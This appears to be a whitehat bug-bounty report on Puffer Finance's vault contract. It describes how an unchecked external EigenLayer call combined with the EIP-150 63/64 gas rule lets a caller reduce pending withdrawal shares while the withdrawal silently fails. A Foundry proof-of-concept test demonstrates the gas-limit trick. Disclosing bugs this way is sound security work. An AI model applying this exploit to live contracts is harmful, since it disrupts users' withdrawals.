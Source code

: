 # External Call from Eigen Layer can fail silently in the claimWithdrawalFromEigenLayer function
Submitted about 2 months ago by @Cryptor (Whitehat) for Boost | Puffer Finance

Report ID: #28732

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

# Impacts
- Contract fails to deliver promised returns, but doesn't lose value

# Details
Description

# Brief/Intro
The function `claimWithdrawalFromEigenLayer` is unprotected and makes an external call to eigen layer at the end of the function without checking the return value. This can result in a possible exploit where a user can call claimWithdrawalFromEigenLayer and pass in just enough gas to reduce the amount of pending shares while the eigenlayer call fails

# Vulnerability Details
Observe the following code

https://github.com/PufferFinance/pufETH/blob/14b15a3c94b65d895ea08b5faa1cfed0dfc18bd0/src/PufferVault.sol#L222-L243

The function claimWithdrawalFromEigenLayer allows a user to claim stETH withdrawals from EigenLayer. If fetches some values from Eigen Layer and then makes some checks. Pay attention to the following lines

```
  $.eigenLayerPendingWithdrawalSharesAmount -= queuedWithdrawal.shares[0];

        _EIGEN_STRATEGY_MANAGER.completeQueuedWithdrawal({
            queuedWithdrawal: queuedWithdrawal,
            tokens: tokens,
            middlewareTimesIndex: middlewareTimesIndex,
            receiveAsTokens: true
        });
```

It reduces the pending shares and then makes an external call to Eigen to complete the queued withdrawal of shares. However due to the 1/64th rule in etheruem and the lack of a return value check on the external call, there is a way to make the function pass while making the external call to eigen silently fail causing an erroneous accounting of eigenLayerPendingWithdrawalSharesAmount, which can be reduced without any withdrawal actually taking place.

# Impact Details
A bad actor exploiting this vulnerability could disrupt the withdrawal process. By causing the external call to Eigen to fail while reducing the pending shares, the actor could manipulate the queuing system. This could ultimately lead to withdrawals being delayed or, in worse scenarios, not processed at all.

# References
https://medium.com/iovlabs-innovation-stories/the-dark-side-of-ethereum-1-64th-call-gas-reduction-ba661778568c

https://github.com/ethereum/EIPs/blob/master/EIPS/eip-150.md

https://solodit.xyz/issues/h-08-gas-limit-check-is-inaccurate-leading-to-an-operator-being-able-to-fail-a-job-intentionally-code4rena-holograph-holograph-contest-git

# Proof of concept
Proof of Concept

(Note: The following helper external view function was added to the puffervault contract to fetch share value from the VaultStorage struct to make writing the test easier. Nothing else has changed in the code.)

```
function getvaultwithdrawshares () public view returns (uint) {

          VaultStorage storage $ = _getPufferVaultStorage();

        return $.eigenLayerPendingWithdrawalSharesAmount;
    }
```

Foundry Test (modified test_withdraw_from_eigenlayer):

```
function test_withdraw_from_eigenLayer()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), address(pufferVault), 1000 ether) // Blast got a lot of stETH
    {

         
        // Simulate stETH cap increase call on EL
        _increaseELstETHCap();

        vm.startPrank(OPERATIONS_MULTISIG);
        pufferVault.depositToEigenLayer(stETH.balanceOf(address(pufferVault)));

        uint256 ownedShares = _EIGEN_STRATEGY_MANAGER.stakerStrategyShares(address(pufferVault), _EIGEN_STETH_STRATEGY);

        uint256 assetsBefore = pufferVault.totalAssets();

        // Initiate the withdrawal
        pufferVault.initiateStETHWithdrawalFromEigenLayer(ownedShares);

        // 1 wei diff because of rounding
        assertApproxEqAbs(assetsBefore, pufferVault.totalAssets(), 1, "should remain the same when locked");

        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(stETH));

        IStrategy[] memory strategies = new IStrategy[](1);
        strategies[0] = IStrategy(_EIGEN_STETH_STRATEGY);

        uint256[] memory shares = new uint256[](1);
        shares[0] = ownedShares;

        IEigenLayer.WithdrawerAndNonce memory withdrawerAndNonce =
            IEigenLayer.WithdrawerAndNonce({ withdrawer: address(pufferVault), nonce: 0 });

        IEigenLayer.QueuedWithdrawal memory queuedWithdrawal = IEigenLayer.QueuedWithdrawal({
            strategies: strategies,
            shares: shares,
            depositor: address(pufferVault),
            withdrawerAndNonce: withdrawerAndNonce,
            withdrawalStartBlock: uint32(block.number),
            delegatedAddress: address(0)
        });

        // Roll block number + 100k blocks into the future
        vm.roll(block.number + 100000);


        
        
        /*added an external helper function getvaultwithdrawshares to the puffer vault contract to fetch 
        the pendingwithdrawsharesamount */
        uint puffervaultsharesbefore = pufferVault.getvaultwithdrawshares();


        /*Exploits EIP 150 to pass in just enough gas to reduce shares amount while allowing 
        the external call to eigen layer to fail silently 
        */
        uint gasLimit = (gasleft()* 63/64) - 1;

        /* Claim Withdrawal. Final call to Eigen Layer would revert while the erroneous accouting of   shares still remain */
        pufferVault.claimWithdrawalFromEigenLayer{gas: gasLimit}(queuedWithdrawal, tokens, 0);

        //
        uint puffervaultsharesafter = pufferVault.getvaultwithdrawshares();

        assert(puffervaultsharesafter < puffervaultsharesbefore);

       
    }
```
